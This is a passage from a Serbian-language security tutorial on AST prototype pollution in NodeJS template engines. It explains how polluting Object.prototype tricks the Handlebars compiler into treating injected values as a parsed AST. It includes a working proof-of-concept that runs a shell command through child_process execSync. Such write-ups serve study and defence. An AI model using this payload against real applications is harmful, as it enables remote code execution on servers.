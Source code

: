 ### AST Prototip Pollution u NodeJS-u

NodeJS intenzivno koristi Apstraktne Sintaksne Stabla (AST) u JavaScript-u za funkcionalnosti poput template motora i TypeScript-a. Ova sekcija istražuje ranjivosti povezane sa prototip pollution-om u template motorima, posebno Handlebars i Pug.

#### Analiza Ranjivosti Handlebars-a

Template motor Handlebars je podložan napadu prototipom pollution-a. Ova ranjivost proizilazi iz specifičnih funkcija unutar fajla `javascript-compiler.js`. Na primer, funkcija `appendContent` konkatenira `pendingContent` ako je prisutna, dok funkcija `pushSource` resetuje `pendingContent` na `undefined` nakon dodavanja izvora.

**Proces Eksploatacije**

Eksploatacija koristi AST (Apstraktno Sintaksno Stablo) koje proizvodi Handlebars, sledeći ove korake:

1. **Manipulacija Parserom**: Prvo, parser, putem čvora `NumberLiteral`, nameće da vrednosti budu numeričke. Prototip pollution može zaobići ovo, omogućavajući umetanje ne-numeričkih stringova.
2. **Obrada od strane Kompajlera**: Kompajler može obraditi AST objekat ili string šablon. Ako `input.type` jednak `Program`, ulaz se tretira kao preanaliziran, što može biti iskorišćeno.
3. **Umetanje Koda**: Kroz manipulaciju `Object.prototype`, može se ubaciti proizvoljan kod u funkciju šablona, što može dovesti do izvršavanja udaljenog koda.

Primer koji demonstrira eksploataciju ranjivosti Handlebars-a:

```javascript
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
}],
"loc": {
"start": 0,
"end": 0
}
}];

const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);

console.log(eval('(' + template + ')')['main'].toString());
```

Ovaj kod prikazuje kako napadač može ubaciti proizvoljni kod u Handlebars šablon.

**Spoljni Reference**: Pronađen je problem povezan sa zagađenjem prototipa u biblioteci 'flat', kako je detaljno opisano ovde: [Issue on GitHub](https://github.com/hughsk/flat/issues/105).
